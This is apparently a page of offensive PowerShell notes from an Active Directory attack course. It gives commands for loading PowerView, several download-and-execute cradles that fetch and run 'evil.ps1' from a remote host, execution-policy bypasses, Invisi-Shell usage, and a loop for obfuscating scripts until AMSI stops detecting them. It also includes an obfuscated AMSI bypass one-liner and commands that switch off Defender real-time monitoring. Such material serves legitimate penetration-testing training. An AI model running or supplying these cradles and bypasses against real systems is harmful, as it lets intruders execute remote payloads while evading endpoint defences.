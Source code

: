 # PowerShell

## xfreerdp

```bash
xfreerdp /d:domain /u:studentx /p:password /v:IP /bpp:8 -themes -wallpaper /dynamic-resolution
```

## <mark style="color:red;">PowerShell Scripts and Modules</mark>

Load a PowerShell script using dot sourcing

```powershell
. C:\AD\Tools\PowerView.ps1
```

A module (or a script) can be imported with:

```powershell
Import-Module C:\AD\Tools\ADModulemaster\ActiveDirectory\ActiveDirectory.psd1
```

All the commands in a module can be listed with:

```powershell
Get-Command -Module <modulename>
```

## <mark style="color:red;">PowerShell Script Execution</mark>

Download execute cradle

<pre class="language-powershell"><code class="lang-powershell">iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

<strong>#PSv3 onwards
</strong><strong>iex (iwr 'http://192.168.230.1/evil.ps1')
</strong>
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex
$h.responseText

$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
</code></pre>

## <mark style="color:red;">Execution Policy</mark>

It is NOT a security measure, it is present to prevent user from accidently executing scripts.

Several ways to bypass:

```powershell
powershell -ExecutionPolicy bypass
powershell -c <cmd>
powershell -encodedcommand
$env:PSExecutionPolicyPreference="bypass"
```

## <mark style="color:red;">Bypassing PowerShell Security</mark>

We will use Invisi-Shell for bypassing the security controls in PowerShell.

{% embed url="https://github.com/OmerYa/Invisi-Shell" %}
Invisi-Shell
{% endembed %}

Using Invisi-Shell:

* With admin privileges:

```powershell
RunWithPathAsAdmin.bat
```

* With non-admin privileges:

```powershell
RunWithRegistryNonAdmin.bat
```

Type exit from the new PowerShell session to complete the clean-up.

## Bypassing AV Signatures for PowerShell

Steps to avoid signature based detection are pretty simple:

1. Scan using AMSITrigger ([https://github.com/RythmStick/AMSITrigger](https://github.com/RythmStick/AMSITrigger)) and DefenderCheck (https://github.com/t3hbb/DefenderCheck):
   * Simply provide path to the script file to scan it:
     * `AmsiTrigger_x64.exe -i InvokePowerShellTcp_Detected.ps1`
     * `DefenderCheck.exe PowerUp.ps1`
2. For full obfuscation of PowerShell scripts, see Invoke-Obfuscation (https://github.com/danielbohannon/InvokeObfuscation). That is used for obfuscating the AMSI bypass in the course!
3. Modify the detected code snippet
4. Rescan using AMSITrigger
5. Repeat the steps 2 & 3 till we get a result as “AMSI\_RESULT\_NOT\_DETECTED” or “Blank”

## Bypass AMSI - Windows Defender

Simple way to bypass AMSI:

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Bypass real time monitoring (requires admin privs):

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```
